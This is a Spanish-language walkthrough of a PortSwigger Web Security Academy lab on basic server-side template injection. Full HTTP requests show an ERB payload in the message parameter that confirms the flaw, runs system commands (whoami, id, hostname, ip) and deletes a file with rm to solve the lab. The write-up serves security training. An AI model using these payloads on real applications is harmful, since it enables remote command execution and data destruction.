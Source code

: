 ```yaml
---
description: >-
  https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic
---
```


# Lab 1: Basic server-side template injection

Se inicia el laboratorio y al interactuar con ver los detalles del primer producto, se genera la siguiente peticion:

```
GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/2
Host: 0a1800fb0372743b825dbaa000200070.web-security-academy.net
Cookie: session=c4ZZ1PuyIiXEyqlJ6qEAaJPFuzLeNZ6y
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Referer: https://0a1800fb0372743b825dbaa000200070.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Lo anterior responde asi:

```html
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 10619

<!DOCTYPE html>
Unfortunately this product is out of stock
```

El parametro message es vulnerable a SSTI:

```
GET /?message=<%=+7*7+%> HTTP/2
Host: 0a1800fb0372743b825dbaa000200070.web-security-academy.net
Cookie: session=c4ZZ1PuyIiXEyqlJ6qEAaJPFuzLeNZ6y
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Referer: https://0a1800fb0372743b825dbaa000200070.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

La respuesta de la peticion entrega realiza el calculo matematico indicando que la respuesta es 49:

Por lo anterior, podemos afirmar que es vulnerable a SSTI:

<figure><img src="../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

Teniendo en cuenta lo anterior, podemos utilizar la palabra reservada system para ejecutar comandos:

```
GET /?message=<%=+system("whoami;id;hostname;ip+a+show")+%> HTTP/2
Host: 0a1800fb0372743b825dbaa000200070.web-security-academy.net
Cookie: session=c4ZZ1PuyIiXEyqlJ6qEAaJPFuzLeNZ6y
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Referer: https://0a1800fb0372743b825dbaa000200070.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Lo anterior da como resultado:

<figure><img src="../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Para resolver el laboratorio enviamos la siguiente peticion:

```
GET /?message=<%=+system("rm+/home/carlos/morale.txt")+%> HTTP/2
Host: 0a1800fb0372743b825dbaa000200070.web-security-academy.net
Cookie: session=c4ZZ1PuyIiXEyqlJ6qEAaJPFuzLeNZ6y
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Referer: https://0a1800fb0372743b825dbaa000200070.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```
